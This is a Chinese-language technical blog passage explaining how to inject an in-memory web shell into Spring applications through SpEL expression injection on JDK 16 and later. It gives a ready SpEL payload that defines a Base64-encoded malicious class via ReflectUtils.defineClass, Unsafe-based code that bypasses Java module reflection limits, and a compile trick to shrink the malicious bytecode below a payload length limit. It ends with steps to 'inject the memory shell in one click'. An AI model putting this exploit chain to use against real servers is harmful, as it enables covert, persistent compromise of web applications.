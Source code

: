 ![](https://mmbiz.qpic.cn/mmbiz_png/vlekRjgqic0exB4eGsmEK5her4xibskb0ZPLFm3Pew5BuyBqicJ7spqicVENdibFjbknPnywyK8GhBGNtg3Q295G6KA/640?wx_fmt=png&from=appmsg "")  
  
这里给出解决的 Payload：  
```
T(org.springframework.cglib.core.ReflectUtils).defineClass('org.springframework.expression.Test',T(java.util.Base64).getDecoder().decode('YOUR-BASE64'),T(java.lang.Thread).currentThread().getContextClassLoader(), null, T(java.lang.Class).forName("org.springframework.expression.ExpressionParser"))
```  
  
这个与一开始我设计的 Payload 的不同的地方在于，使用的底层 defineClass 的方法不同：  
```
// 修改前的 Payload
public static Class defineClass(String className, byte[] b, ClassLoader loader)

// bypass JDK16+ 的 Payload
public static Class defineClass(String className, byte[] b, final ClassLoader loader, ProtectionDomain protectionDomain, final Class<?> contextClass)
```  
  
其中类加载器不同；指定了 contextClass ；而且需要恶意类在 org.springframework.expression 包下。如此修改可以使得代码进入没有 setAccessible(true) 的分支，那么自然就没有反射的限制了，从而完成更高版本的内存马注入（①）。  
  
目前位置我们需要做：  
1. 修改 SpEL 的 payload；  
  
1. 修改 JMG 内存马注入器的包名在 org.springframework.expression 下；我们到此为止解决了 ① 的问题，② 的问题就很容易解决了，参考第三点。  
  
1. 在恶意字节码（内存马）中添加反射绕过代码：  
  
```
Class unsafeClass = Class.forName("sun.misc.Unsafe");
Field unsafeField = unsafeClass.getDeclaredField("theUnsafe");
unsafeField.setAccessible(true);
Unsafe unsafe = (Unsafe) unsafeField.get(null);
Module module = Object.class.getModule();
Class cls = HelpUtils.class;
long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
unsafe.getAndSetObject(cls, offset, module);
Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, Integer.TYPE, Integer.TYPE);
defineClass.setAccessible(true);
```  
  
可能会遇到的问题：  
  
以上三步都很简单，但是在重新生成恶意类的 Base64 的时候大家可能还会遇到一个问题，即使使用了 gzip 压缩的方式，最终的 Base64 字符串依然超过了 10000 的长度限制。  
这里提供一个手动编译恶意字节码的一个小技巧，可以大大限制字节码的膨胀。  
（不生成调试信息，并在编译时显示未经检查的操作和已弃用代码的警告。  
）  
```
javac -g:none .\YOUR-Evil.java -Xlint:unchecked  -Xlint:deprecation
```  
1. 手动编译恶意字节码，gzip 压缩字节码后转换成 Base64 输出，将字符串填充到 Payload 中；  
  
1. 发送报文，一键注入内存马。  
  
**扩展**  
  